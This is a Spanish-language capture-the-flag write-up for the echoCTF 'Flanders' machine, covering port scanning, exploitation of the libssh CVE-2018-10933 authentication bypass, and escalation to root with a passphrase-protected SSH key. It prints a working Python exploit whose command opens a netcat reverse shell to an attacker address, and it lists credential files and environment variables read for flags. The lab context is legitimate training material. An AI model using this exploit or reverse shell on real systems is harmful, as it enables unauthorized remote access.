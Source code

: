 ```yaml
---
tags:
  - SSH Authentication Bypass (libssh)
---
```


# Flanders <!-- omit from toc -->

Write-up de la máquina Flanders de [echoCTF](https://echoCTF.red).

![Cover de Flanders](images/cover.png)

## Índice <!-- omit from toc -->

- [Introducción](#introducción)
  - [Estadísticas](#estadísticas)
- [Reconocimiento](#reconocimiento)
  - [Escaneo de host](#escaneo-de-host)
    - [Escaneo completo de puertos](#escaneo-completo-de-puertos)
    - [Escaneo específico](#escaneo-específico)
- [Enumeración](#enumeración)
  - [Servicios (nombre - puerto)](#servicios-nombre---puerto)
    - [ssh - 6022](#ssh---6022)
      - [Manual](#manual)
- [Explotación](#explotación)
  - [libSSH Authentication Bypass](#libssh-authentication-bypass)
    - [Pasos previos | Preparación](#pasos-previos--preparación)
    - [Ejecución](#ejecución)
- [Post Explotación](#post-explotación)
  - [Enumeración](#enumeración-1)
  - [Escalación de privilegios](#escalación-de-privilegios)
    - [ETSCTF → root](#etsctf--root)
  - [Ubicación de banderas](#ubicación-de-banderas)

## Introducción

### Estadísticas

| Característica | Descripción |
|---|---|
| Nombre | [Flanders](https://echoctf.red/target/13) |
| Dificultad | Basic |
| Banderas | 4 (2 system, env, root) |
| Puntos | 4,800 pts (system/1,000 pts, system/1,300 pts, env/900 pts, root/1,500 pts) |
| Descripción / Pistas | Flanders simple and kind, always ready to to give a helping hand. His favorite catch phrase is `Okily Dokily`. Catch phrase sounds like a pass phrase, only without space |

## Reconocimiento

### Escaneo de host

#### Escaneo completo de puertos

```bash
❯ sudo nmap -T5 -open -vvv --min-rate=5000 -p- -n -Pn -oG nmap/all_ports $BOX_TARGET
Host discovery disabled (-Pn). All addresses will be marked 'up' and scan times will be slower.
Starting Nmap 7.91 ( https://nmap.org ) at 2021-10-27 09:35 CDT
Initiating SYN Stealth Scan at 09:35
Scanning 10.0.100.34 [65535 ports]
Discovered open port 6022/tcp on 10.0.100.34
Completed SYN Stealth Scan at 09:35, 14.77s elapsed (65535 total ports)
Nmap scan report for 10.0.100.34
Host is up, received user-set (0.14s latency).
Scanned at 2021-10-27 09:35:04 CDT for 15s
Not shown: 65534 closed ports
Reason: 65534 resets
PORT     STATE SERVICE REASON
6022/tcp open  x11     syn-ack ttl 63

Read data files from: /usr/bin/../share/nmap
Nmap done: 1 IP address (1 host up) scanned in 15.11 seconds
           Raw packets sent: 72729 (3.200MB) | Rcvd: 70809 (2.832MB)
```

#### Escaneo específico

```bash
❯ nmap -sCV -p 6022 -oN nmap/targeted $BOX_TARGET
Starting Nmap 7.91 ( https://nmap.org ) at 2021-10-27 09:48 CDT
Nmap scan report for 10.0.100.34
Host is up (0.14s latency).

PORT     STATE SERVICE VERSION
6022/tcp open  ssh     libssh 0.8.1 (protocol 2.0)
| ssh-hostkey:
|_  2048 9c:42:2e:fa:60:30:95:dd:a0:60:80:1f:fd:ae:77:86 (RSA)

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 4.85 seconds
```

## Enumeración

### Servicios (nombre - puerto)

#### ssh - 6022

##### Manual

Dado el reconocimiento por medio de `nmap` se puede identificar que se está corriendo un servidor `ssh` en un puerto no convencional y se expone la versión `libssh 0.8.1`, después de una búsqueda se puede identificar que la versión expuesta cuenta con una vulnerabilidad la cuál explota un bypass de autenticación, reportada en el [CVE-2018-10933](https://nvd.nist.gov/vuln/detail/CVE-2018-10933).

Se encontraron diversos scripts en python que abusan de la vulnerabilidad:

- https://www.exploit-db.com/exploits/45638
- https://gist.github.com/mgeeky/a7271536b1d815acfb8060fd8b65bd5d

## Explotación

### libSSH Authentication Bypass

#### Pasos previos | Preparación

Como parte de los scripts buscados se encontró el siguiente código en un script que resultó bastante simple de ejecutar, únicamente realizando los cambios pertinentes de ip, puerto y comando (entablando una reverse shell).

**Script**
```python
#!/usr/bin/python3

import sys
import paramiko
import socket

s=socket.socket()
s.connect(("10.0.100.34",6022))
m=paramiko.message.Message()
t=paramiko.transport.Transport(s)
t.start_client()
m.add_byte(paramiko.common.cMSG_USERAUTH_SUCCESS)
t._send_message(m)
c=t.open_session(timeout=5)
c.exec_command("nc -e /bin/bash 10.10.0.26 1234")
out=c.makefile("rb",2048)
output=out.read()
out.close()
print (output)
```

#### Ejecución

![exploit_1](./images/exploit_1.png)

1. Ejecución de script.
2. Listener de reverse shell.

## Post Explotación

### Enumeración

Realizando enumeración manual se puede observar que el directorio principal del usuario al que se accede `ETSCTF` contiene una llave `ssh` que a primera impresión apuntaría a un método de escalación de privilegios a `root`.

![post_1](./images/post_1.png)

1. Directorio.
2. Llave.
3. Usuario al que pertenece.

### Escalación de privilegios

#### ETSCTF &rarr; root

La idea inicial a seguir sería extraer la llave encontrada para intentar acceder al sistema con ella, dado que ningún intento funcionó, se puede tratar de ubicar si existe algún otro medio de acceso a la máquina por el cuál esté restringida a conexiones provenientes únicamente desde local, es decir, de `flanders` hacia `flanders`. Para comprobar esto se puede buscar si algún servicio de `ssh` está ejecutandose y si existe algún puerto que esté a la escucha de nuevas conexiones.

![post_2](./images/post_2.png)

La salida del comando mapea automáticamente los puertos comúnes para el servicio siendo así que `127.0.0.1:ssh` sería lo mismo que `127.0.0.1:22`, verificando de esta manera que se escuchan conexiones `ssh` localmente.

![post_3](./images/post_3.png)

En esta comprobación se puede ver que se está ejecutando `sshd` correspondiente al servidor de `ssh` en linux.

Se suelen proteger las llaves `ssh` con passphrases y observando que en la descripción de la máquina se proporciona una passphrase (`Okily Dokily`) se pudiera concluir que al hacer uso de la llave se pedirá.

![post_4](./images/post_4.png)

Logrando así satisfactoriamente la escalación de privilegios.

![post_5](./images/post_5.png)

### Ubicación de banderas

1. `/etc/passwd`.
2. `/etc/shadow`.
3. Extrayendo las variables de entorno de los procesos en ejecución con `strings /proc/*/environ | grep ETSCTF`.
4. `/root`.